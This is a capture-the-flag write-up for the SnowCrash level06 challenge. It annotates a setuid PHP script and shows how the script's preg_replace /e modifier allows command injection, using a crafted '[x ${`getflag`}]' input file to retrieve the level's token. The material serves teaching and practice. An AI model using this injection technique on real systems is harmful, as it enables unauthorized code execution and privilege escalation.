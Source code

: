# 1st Step  
List the file with `ls -l` will show us :  
```
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwsr-x---  1 flag06 level06 356  Mar 5   2015 level06.php
```  
***Notes** : The owner of 'level06' executable and 'level06.php' script is flag06 we'll probably exploit at least one of them*  
  
Look at the php script  
```
#!/usr/bin/php                                                            # Indicates the path of the interpreter, like for bash (#!/bin/bash)
<?php                                                                     # Opening php tag, this is the beginning of the script
	function y($m) {
		$m = preg_replace("/\./", " x ", $m);                     # `/\./` matches the character '.' literally (case sensitive) => replace the first '.' by " x "
		$m = preg_replace("/@/", " y", $m);                       # `/@/` matches the character @ literally (case sensitive) => replace the first '@' by " y"
		return $m;
	}
	function x($y, $z) {
		$a = file_get_contents($y);                               # `file_get_contents()` reads entire file and return it into a string
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);   # explanations bellow*
		$a = preg_replace("/\[/", "(", $a);                       # `/\[/` matches the character [ literally (case sensitive) => replace the first '[' by '('
		$a = preg_replace("/\]/", ")", $a);                       # `/\]/` matches the character ] literally (case sensitive) => replace the first ']' by ')'
		return $a;
	}
	$r = x($argv[1], $argv[2]);                                       # call the function x *the second line will print the result*
	print $r;
?>                                                                        # closing php tag, end of the script
```
  
It takes two parameters and calls a function x to get the content of the first parameter, assuming it refers to a file (see file_get_contents)  
Then replacements are done to this content, based on regular expressions.    
We can see the php script use the deprecated and vulnerable regex 'e' modifier
So the `/(\[x (.*)\])/e` regex will evaluate any string arranged in the form "[x (.*)]", interpret it as PHP code and call the 'y' function with ".*" as parameter.  
This allowing us to inject code like `getflag` ;)  

# 2nd Step
Let's exploit this php file !  
```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$ su level07
Password: 
level07@SnowCrash:~$
```
*Note: we used the [complex syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) => ${function}*  
Level06 passed !
